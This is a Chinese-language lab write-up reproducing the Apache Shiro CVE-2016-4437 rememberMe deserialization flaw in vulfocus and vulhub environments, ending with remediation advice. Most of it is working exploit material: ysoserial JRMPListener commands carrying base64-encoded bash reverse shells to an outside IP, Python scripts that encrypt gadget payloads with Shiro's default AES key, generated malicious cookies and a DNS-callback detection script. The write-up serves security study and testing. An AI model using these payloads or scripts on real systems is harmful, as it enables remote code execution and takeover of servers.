






## CVE-2016-4437shiro-550反序列化命令执行

**Apache Shiro™**是一个功能强大且易于使用的 Java 安全框架，它执行身份验证、授权、加密和会话管理。借助 Shiro 易于理解的 API，您可以快速轻松地保护任何应用程序——从最小的移动应用程序到最大的 Web 和企业应用程序。

- 身份验证 - 证明用户身份，通常称为用户“登录”。
- 授权 - 访问控制
- 密码学 - 保护或隐藏数据不被窥探，加密
- 会话管理 - 用户状态

Apache Shiro before 1.2.5, when a cipher key has not been configured for the "remember me" feature, allows remote attackers to execute arbitrary code or bypass intended access restrictions via an unspecified request parameter.

Apache Shiro <= 1.2.4，需要获取AES秘钥

### 漏洞原理

Apache Shiro框架提供了记住我的功能（RememberMe），关闭了浏览器下次再打开时还是能记住你是谁，下次访问时无需再登录即可访问。用户登陆成功后会生成经过加密并编码的cookie。Apache Shiro 1.2.4及以前版本中，Apache Shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值 > Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞

在服务端接收cookie值时，按照如下步骤来解析处理：
1、检索RememberMe cookie 的值
2、Base 64解码
3、使用AES解密(加密密钥硬编码)
4、进行反序列化操作（未作过滤处理）

但是，AES加密的密钥Key被硬编码在代码里，意味着每个人通过源代码都能拿到AES加密的密钥。因此，攻击者构造一个恶意的对象，并且对其序列化，AES加密，base64编码后，作为cookie的rememberMe字段发送。Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。在调用反序列化时未进行任何过滤，导致可以触发远程代码执行漏洞

### 漏洞复现

环境直接使用vulfocus的shiro 反序列化 （CVE-2016-4437）环境

勾选RememberMe并登录，在登陆界面输入正确的用户名和密码，服务器set-cookie了一个rememberMe的值

输入错误的用户名和密码，服务器set-cookie rememberMe=deleteMe，可以确定使用了shiro框架

攻击端

下载ysoserial的jar包，ysoserial是一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。 可获取的Java反序列化payload

~~~shell
wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
~~~

在攻击端开启JRMP服务监听，2333为监听端口。利用链为CommonsCollections4，最后是base64编码过的反弹shell命令。

> 原本反弹shell的bash命令中含有特殊字符，在java下会因为重载函数产生影响导致无法执行命令，因此要对命令进行处理，去除其中的特殊字符。
>
> 处理bash命令，https://www.jackson-t.ca/runtime-exec-payloads.html

JRMP是一个Java远程方法协议，该协议基于TCP/IP之上，RMI协议之下。也就是说RMI该协议传递时底层使用的是JRMP协议，而JRMP底层则是基于TCP传递。

`exploit/JRMPListener`作为攻击方进行监听,在反序列化漏洞位置发送`payloads/JRMPClient`向我们的`exploit/JRMPListener`进行连接，连接后会返回在`exploit/JRMPListener`的gadgets对象并且进行反序列化

攻击流程如下：

1. 攻击方在自己的服务器使用`exploit/JRMPListener`开启一个rmi监听
2. 往存在漏洞的服务器发送`payloads/JRMPClient`，payload中已经设置了攻击者服务器ip及JRMPListener监听的端口，漏洞服务器反序列化该payload后，会去连接攻击者开启的rmi监听，在通信过程中，攻击者服务器会发送一个可执行命令的payload（假如存在漏洞的服务器中有使用`org.apacje.commons.collections`包，则可以发送`CommonsCollections`系列的payload），从而达到命令执行的结果。

~~~
本地开启JRMP监听 -> python生成payload替换cookie发送 -> 靶机回连本地JRMP服务 -> 靶机收到gadgets对象对其反序列化造成命令执行
~~~

~~~~shell
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 2333 CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTM4LjEwOS8xNzcwICAgMD4mMQ==}|{base64,-d}|{bash,-i}"
~~~~

使用python脚本生成payload。

~~~shell
python2 shiro.py 101.43.138.109:2333
rememberMe=tru3F4AYTwOQnY2NMya+zTDvd4+/qg9sos4taHlIRzLpK4sRwjGgulN+VOTwNvf7sB2eN2jkh5XC0G30WeUQS9gGpA4MQYP1HC3p65ZqOvw+3xVwDol0rdqoZN+WsPISsAU+DuGd9Q/XZ4t8RLfC3LcvNsORkIU/xFcdPm7dzsbIUK6CtiVIwJWjHRLLhN+WxGxPnk2hyMtvuCTu9rAooY2qNTBNAke1sUabc3tpHUmbakyQLMwzU7smuhMxDQO589ilB1aK9jQ+B9xUJZCSKOMVKOo4nnnLf3ZbK4o1GarKOzFwTbBJVCVjx9suWVa96PsZGeoQIfq++/Hm23HmDAK8Bvs1AZYZWSi1sS9myIezihwQuZw2NrfeW2t7vCTdZFr7Qp2jHV1LopGzEw+r7g==
~~~

>unbuntu安装pycrypto出错解决方式https://juejin.cn/post/6844903777531609095

~~~python
#python2
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-SNAPSHOT.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
    print "rememberMe={0}".format(payload.decode())
~~~

将生成的payload放入cookie字段，重新发送数据包。即可完成漏洞利用。

但是在我的复现过程并没有成功，发送payload后没有反应，我使用shiro一键利用工具检测漏洞确实是存在的，也可以执行命令。

我先是判断是python脚本的问题，生成了无效的poc，因为我本地的JRMP服务端没有收到任何请求。随后自己改写了一个py3版本的脚本，使用URLDNS利用链，dnslog有结果，说明payload有效。使用JRMP进行利用，等待了很久JRMP服务端才收到请求，而反弹shell却失败了。经过查询资料，原生shiro并没有CommonsCollections4利用链的依赖，我更换了shiro带有的CommonsBeanutils1利用链，仍然不能执行命令。

dnslog检测的脚本，使用ysoserial的URLDNS利用链生成payload，流程和上述一样。

~~~python
#python3
import base64
import uuid
import subprocess
from Crypto.Cipher import AES
 
def rememberme(command):
    popen = subprocess.Popen([r'java', '-jar', r'ysoserial-master-SNAPSHOT.jar', 'URLDNS', command],
                             stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = b' ' * 16
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    # 替换dnslog
    payload = rememberme('http://0yytfe.dnslog.cn')
    print("rememberMe={}".format(payload.decode()))
~~~

URLDNS利用链没有使用额外依赖，使用该脚本生成的payload替换到cookie中是可以检测到的。

~~~shell
root@VM-24-7-ubuntu:/home/ubuntu/temp# python3 shiro.py 
rememberMe=ICAgICAgICAgICAgICAgIF0yy0+EfmgDB6opwc5Eyojr6gmbmzKqE7A6zEIUIrJWtk8da105KSsOrVOT1i8kc2Lyuww8undW2nrrgfRUJFtWRSswfmC3T5OjTLxeH7GeL89i4PDjA+rZJyyA/TtPgk6la/7UlSIRFI0uDWUYx2Uz9Vs8lgqKgb5AsCLKmEpqVrY+epmHidx4SCxFH/daRAmd1YB6+LypSau2LgaSgH7UQFJ1UM7bFkaacMhd5uyoitBlVogMEBxiY9CKlGxbFzFOa9HBJfpJpk7fGP33+WHKIcUNbn/jVjDWUt94/0r3KSRjrlie
~~~

至于RCE的利用链如何使用还需要再研究一下。

-----

**觉得网页版vulfocus环境有问题，dnslog返回的ip一直是变化的并且也不是url中的ip，它架构可能是均衡负载+docker集群，这种情况不出网的可能性很大，网上的exp工具爆破了回显链因此可以命令执行并有回显，直接使用JRMP的方式无法利用。**

更换vulhub的漏洞环境https://vulhub.org/#/environments/shiro/CVE-2016-4437/

启动JRMP监听

~~~shell
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 2333 CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTM4LjEwOS8xNzcwIDA+JjE=}|{base64,-d}|{bash,-i}"
~~~

使用python脚本生成payload

~~~shell
python shiro.py
rememberMe=ICAgICAgICAgICAgICAgIKJBToq3AgWpkZCN9zQ2dfEHCco/VzhG+3LQHh5Zaer60r5Jwla79z0XmDOj8+w1eKA2vgHYMkiWYHxPTnCTruQce9qUyi1DfZbejmiqT0SdmloCk0mpI/GFrLviKn4NgEccphmdxaeejF7aza2uR6mZR4DYZWErT6EgMoqKwqkMtO91HfpMZW3QSbxaeFLQDQS/E6tc3GQRK4qxMxbx0/yd4ADT3MH58lLcdtvXgyLG51gaMpDMeYXLxHoEhvYmZPhiPD1qrGJ5wLHzV/WSvA4NFHQn7cMvBKoT+6IvtRY4WM56jD8u4mqvpKxbncRUdSCxzyvUwa/fMAdcP8L5Q1OReMmOrSiRHbXK4X/kducLMxNzy7zXnxxwSDSH9RaLPw==
~~~

~~~python
#python3
import base64
import uuid
import subprocess
from Crypto.Cipher import AES
 
def rememberme(command):
    popen = subprocess.Popen([r'java', '-jar', r'ysoserial-master-SNAPSHOT.jar', 'JRMPClient', command],
                             stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = b' ' * 16
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext
 
if __name__ == '__main__':
    payload = rememberme('101.43.138.109:2333')
    print("rememberMe={}".format(payload.decode()))
~~~

替换cookie

反弹shell成功

JRMP服务端收到的请求如下

基本可以确定就是vulfocus靶场环境的问题。

> 还是要使用CommonsBeanutils1依赖的利用链。

除了上述这种先让靶机回连JRMP服务端，再由JRMP传一个恶意对象反序列化命令执行外，还可以直接生成完整的exp替换到cookie中去。

~~~shell
java -jar ysoserial-master-SNAPSHOT.jar CommonsBeanutils1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTM4LjEwOS8xNzcwIDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
~~~

~~~shell
python3 shiropoc.py 
rememberMe=Ko3KI6k9SNK5I2vz7Ij0Xiqj1yvmmWGtky+mEzs49AqdK2E9xWuEHVIF8FzD2Ddz3R5sHs2TLnF4ibPfjluYVSvLrGofQtKpf2adv+B+uxRnAqBt6bEgFc0aN5e58WQXsUAkD41CCvBv7oyTFGIPEPfZr/13uWfecafMbrdiWFIx4G+Tnqs325cpmt+yraP8jRE389T6/yeRpEFWrg/NzYI4TLibLmyf9mMKmL0yE1eYBVKXNXsDzFg6MK1xmSzD+iVy1KR9WyFvU1u6NyTzIUjxDQjCx3oFyR4MTjJRWJ+LFiDAuigUduBRCSxq34J0aVZk9WArj3TSud6DkuAFD1JPq7TSE5Qw7k8vk9Oj6luUsGK3/ALMSIE1r2+ZOrqVvMcQ9L5IgfNwL+Qd1wgq23hd0wiuKE6WqRNJIyaVDfveXhdgap3DTOmw4K5VhvOIFHP3VtRXbxLs8XtfWcF4Bq8KuGmO2j1t6C+dPrNR/db407EBkxC7ZC7iZjCY41WtjwwvwC6N/ENDAlqNXafa+B0eu05FPyE5QlR+xm2CtHdZetx5r1hakFneae1Az0voXTXu6RYyj13zPTjsdlAMjY5AwUp/g8y15b8qf+5muLHoPAtOz+TFhee48bEPrIWQBdAD+GXOMWvXASFgI83fMzN15v8UkbQ4BNIy8sPLPdFG4UarltDcckdZogCy/CDvB9aZnlvgBabb3/6II3At1+3ZTwH40mdS5gBjo0hukBrq9QfUDpqUOrXisopMJWK2ruvki4myfcK70DBU8qUoFbGjljCO...............
~~~

~~~python
#python3 shiropoc.py 
import sys
import uuid
import base64
from Crypto.Cipher import AES

def encode_rememberme():
    f = open('poc.ser','rb')
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(f.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme()    
    print("rememberMe={0}".format(payload.decode()))
~~~

### 漏洞修复

1. 升级shiro到1.2.5及以上

   1.2.5将密钥动态生成.避免了攻击者可以自己生成序列化恶意对象

2. 现在使用的rememberMe的AES加密密钥泄露，请自己base64一个AES的密钥，或者利用官方提供的方法生成密钥org.apache.shiro.crypto.AbstractSymmetricCipherService#generateNewKey()

   即自己更换一个密钥

高版本shiro泄露了AES key也存在漏洞，但是Shiro1.4.2版本后，Shiro的加密模式由AES-CBC更换为 AES-GCM，利用时要考虑加密方式变化的问题。

高版本利用工具https://github.com/Ares-X/shiro-exploit

